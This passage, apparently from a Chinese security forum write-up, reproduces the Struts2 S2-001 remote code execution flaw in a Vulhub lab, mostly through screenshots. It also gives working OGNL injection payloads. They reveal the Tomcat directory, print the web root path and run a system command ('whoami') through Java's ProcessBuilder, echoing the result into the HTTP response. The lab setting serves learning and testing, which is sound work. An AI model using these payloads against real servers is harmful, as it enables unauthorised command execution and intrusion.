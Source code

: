 ![image-20210708101433289](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9e4d08a2df47b03f7d49fd83a46c78c8e8df2f0f.png)

![image-20210708135151541](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bdc2c865d1baa547443e7d0b5f2d67e3a31b718a.png)

4.Vulhub漏洞复现
------------

### 4.1 S2-001远程代码执行漏洞

#### 开启struts2-001漏洞

![image-20210708135805848](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5de078982e17f9e71d999a1529a5c6533654a357.png)

#### 验证是否开启

![image-20210708135910127](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-915d473f7936f767f09dfbefd69798fa5e7917a1.png)

![image-20210708140019492](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0e00ca7964c8f78112a0da0bc7be8d67a6687f13.png)

#### 验证是否存在

![bdbedc76421163ec734cee68dff927a](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-53fc216850d2bed043011219d329359478cfd318.png)

![322449e9453684ee7ee4226b8d99c39](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-151faf0fe67caf52ddacee46f09b90edf368bf25.png)

#### 获取tomcat路径

```php
%{&quot;tomcatBinDir{&quot;+@java.lang.System@getProperty(&quot;user.dir&quot;)+&quot;}&quot;}
```

![image-20210708140432678](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8a4fae704a550bd845643e0dfc4ca23ec3658c55.png)

![image-20210708140620554](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d252b09cee23a86db39c78a4b47ffd970931bab6.png)

#### 获取网站的真实路径

```php
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get(&quot;com.opensymphony.xwork2.dispatcher.HttpServletResponse&quot;).getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![image-20210708140918567](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-acb86ffde63a209e40f61e1c41a4eba2e91c749a.png)

![image-20210708140928436](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c1896fa7e7a5257993c3aa3d874da2755a53e3b3.png)

#### 执行命令

```php
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{&quot;whoami&quot;})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get(&quot;com.opensymphony.xwork2.dispatcher.HttpServletResponse&quot;),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```
